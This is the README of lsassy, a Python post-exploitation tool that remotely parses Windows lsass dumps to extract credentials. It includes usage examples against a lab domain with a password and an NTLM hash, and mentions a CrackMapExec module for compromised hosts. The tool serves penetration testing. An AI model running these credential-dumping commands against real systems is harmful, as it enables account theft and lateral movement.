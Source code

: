 # lsassy

[![PyPI version](https://badge.fury.io/py/lsassy.svg)](https://badge.fury.io/py/lsassy)

Python library to remotely parse lsass dump and extract credentials.
This library uses [impacket](https://github.com/SecureAuthCorp/impacket) projects to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [<domain>/]<user>[:<password>]@<target>:/shareName/path/to/lsass.dmp
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](/cme/)

## Examples

### lsassy

```
lsassy ADSEC.LOCAL/jsnow:Winter_is_coming_\!@dc01.adsec.local:/C$/Windows/Temp/lsass.dmp

lsassy Administrateur:952c28bd2fd728898411b301475009b7@desktop01.adsec.local:/ADMIN$/lsass.dmp
```

### CME Module

![Example image](/assets/cme_example.png)

## Installing

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
